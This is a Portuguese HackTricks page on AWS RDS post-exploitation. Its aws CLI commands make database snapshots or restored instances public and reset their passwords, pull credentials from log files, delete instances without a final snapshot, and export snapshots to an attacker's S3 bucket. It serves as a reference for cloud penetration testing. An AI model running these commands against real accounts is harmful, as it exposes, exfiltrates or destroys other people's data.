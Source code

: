# AWS - Pós-Exploração do RDS

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, confira os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Adquira o [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## RDS

Para mais informações, consulte:

{% content-ref url="../aws-services/aws-databases/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-databases/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:CreateDBSnapshot`, `rds:RestoreDBInstanceFromDBSnapshot`, `rds:ModifyDBInstance`

Se o atacante tiver permissões suficientes, ele poderá tornar um **BD acessível publicamente** criando um snapshot do BD e, em seguida, um BD acessível publicamente a partir do snapshot.

```bash
aws rds describe-db-instances # Obter o identificador do BD

aws rds create-db-snapshot \
    --db-instance-identifier <db-id> \
    --db-snapshot-identifier cloudgoat

# Obter grupos de sub-redes e grupos de segurança
aws rds describe-db-subnet-groups
aws ec2 describe-security-groups

aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier "new-db-not-malicious" \
    --db-snapshot-identifier <scapshotId> \
    --db-subnet-group-name <db subnet group> \
    --publicly-accessible \
    --vpc-security-group-ids <ec2-security group>

aws rds modify-db-instance \
    --db-instance-identifier "new-db-not-malicious" \
    --master-user-password 'Llaody2f6.123' \
    --apply-immediately

# Conecte-se ao novo BD após alguns minutos
```

### `rds:ModifyDBSnapshotAttribute`, `rds:CreateDBSnapshot`

Um atacante com essas permissões poderia **criar um snapshot de um BD** e torná-lo **publicamente disponível**. Em seguida, ele poderia simplesmente criar em sua própria conta um BD a partir desse snapshot.

Se o atacante **não tiver a permissão `rds:CreateDBSnapshot`**, ele ainda poderá tornar **outros** snapshots criados **públicos**.

{% code overflow="wrap" %}
```bash
# criar snapshot
aws rds create-db-snapshot --db-instance-identifier <db-instance-identifier> --db-snapshot-identifier <snapshot-name>

# Torná-lo público
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
## Especifique outras contas específicas em vez de todas para dar acesso apenas a contas específicas: --values-to-add {"111122223333","444455556666"}
```
{% endcode %}

### `rds:DownloadDBLogFilePortion`

Um atacante com a permissão `rds:DownloadDBLogFilePortion` pode **baixar porções dos arquivos de log de uma instância RDS**. Se dados sensíveis ou credenciais de acesso forem registrados acidentalmente, o atacante poderá potencialmente usar essas informações para escalar seus privilégios ou realizar ações não autorizadas.

{% code overflow="wrap" %}
```bash
aws rds download-db-log-file-portion --db-instance-identifier target-instance --log-file-name error/mysql-error-running.log --starting-token 0 --output text
```
{% endcode %}

**Impacto potencial**: Acesso a informações sensíveis ou ações não autorizadas usando credenciais vazadas.

### `rds:DeleteDBInstance`

Um atacante com essas permissões pode **DoS em instâncias RDS existentes**.

{% code overflow="wrap" %}
```bash
# Excluir
aws rds delete-db-instance --db-instance-identifier target-instance --skip-final-snapshot
```
{% endcode %}

**Impacto potencial**: Exclusão de instâncias RDS existentes e possível perda de dados.

### `rds:StartExportTask`

{% hint style="info" %}
TODO: Teste
{% endhint %}

Um atacante com essa permissão pode **exportar um snapshot de instância RDS para um bucket S3**. Se o atacante tiver controle sobre o bucket S3 de destino, ele poderá potencialmente acessar dados sensíveis dentro do snapshot exportado.

{% code overflow="wrap" %}
```bash
aws rds start-export-task --export-task-identifier attacker-export-task --source-arn arn:aws:rds:region:account-id:snapshot:target-snapshot --s3-bucket-name attacker-bucket --iam-role-arn arn:aws:iam::account-id:role/export-role --kms-key-id arn:aws:kms:region:account-id:key/key-id
```
{% endcode %}

**Impacto potencial**: Acesso a dados sensíveis no snapshot exportado.